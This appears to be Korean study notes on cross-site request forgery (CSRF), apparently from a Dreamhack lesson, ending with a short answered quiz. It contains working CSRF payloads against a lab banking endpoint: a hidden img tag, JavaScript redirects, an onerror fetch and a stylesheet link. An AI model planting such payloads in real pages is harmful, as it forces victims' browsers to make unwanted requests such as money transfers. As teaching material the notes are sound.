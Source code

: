# Cross Site Request Forgery (CSRF)

## CSRF
**CSRF** : 임의 이용자의 권한으로 임의 주소에 **HTTP 요청**을 보낼 수 있는 취약점  
-> 이용자를 속여서, 의도치 않은 요청에 동의하게 하는 공격  

공격자가 악성 스크립트(HTML, Javascript 등)을 넣어서 이용자에게 **메일**을 보내거나 게시판에 **글을 작성**해 이용자가 이를 조회하도록 하는 방식입니다.  

```http
GET /sendmoney?to=dreamhack&amount=1337 HTTP/1.1
Host: bank.dreamhack.io
Cookie: session=IeheighaiToo4eenahw3
```

위의 메시지는 송금 요청하는 예시 request message 입니다.  

```python
# 이용자가 /sendmoney에 접속했을때 아래와 같은 송금 기능을 웹 서비스가 실행함.
@app.route('/sendmoney')
def sendmoney(name):
    # 송금을 받는 사람과 금액을 입력받음.
    to_user = request.args.get('to')
	amount = int(request.args.get('amount'))
	
	# 송금 기능 실행 후, 결과 반환	
	success_status = send_money(to_user, amount)
	
	# 송금이 성공했을 때,
	if success_status:
	    # 성공 메시지 출력
		return "Send success."
	# 송금이 실패했을 때,
	else:
	    # 실패 메시지 출력
		return "Send fail."
```

위의 파이썬 코드는 이전에 적었던 request message를 보내는 코드입니다.

## CSRF 동작

``<img>`` 를 사용하거나 웹 페이지에 입력된 양식을 전송하는 ``<form>`` 를 사용하는 방법이 있습니다.  

<img src="4.png">  

```html
<img src='http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337' width=0px height=0px>
```

위의 코드는 ``<img>`` 태그로 만든 공격 코드 예시이다.  

```Javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
```

위에 있는 코드들처럼 ``<img>`` 태그나 ``location.href`` 등을 사용해서 csrf 공격을 합니다.

## CSRF 실습(개편 전 실습, 추후에 추가)

<img src="2.jpg">

위에 있던 송금을 하게끔 csrf 공격을 합니다.

<img src="3.jpg">

다음과 같이 적으면, 한 번 요청되면 1000000원이 송금됩니다.

```html
<img src="/sendmoney?to=dreamhack&amount=1337">
<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">
<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```
위에 있는 코드처럼 여러 방식으로 csrf 공격을 할 수 있습니다.

## XSS와 CSRF 차이

### 공통점

**클라이언트를 대상**으로 하는 공격, **악성 스크립트**를 사용한다.

### 차이점

**목적**이 다르다.

1. **XSS** : **세션 및 쿠키 탈취**를 목적

2. **CSRF** : **HTTP 요청**을 보내는 것을 목적

# 마치며
## 마치며
- **Cross Site Request Forgery (CSRF)**: 사이트 간 요청 위조. **이용자**가 자신의 **의지와는 무관**하게 공격자가 의도한 행위를 **특정 웹사이트에 요청**하게 만드는 공격.

# 퀴즈

1. 서버에서 이용자를 식별하기 위해 쿠키를 사용하고 있어야 CSRF 취약점으로 공격할 수 있다.  
``답 : O``

2. 브라우저는 CSRF 취약점을 방지하기 위한 보안 메커니즘을 제공한다.  
``답 : O``

3. 서버에서 HTTP의 GET 메소드가 아닌 POST 메소드로 데이터를 받으면 CSRF에 안전하다.  
``답 : X``

4. CSRF 공격이 불가능할 때 XSS 공격도 불가능하다.  
``답 : X``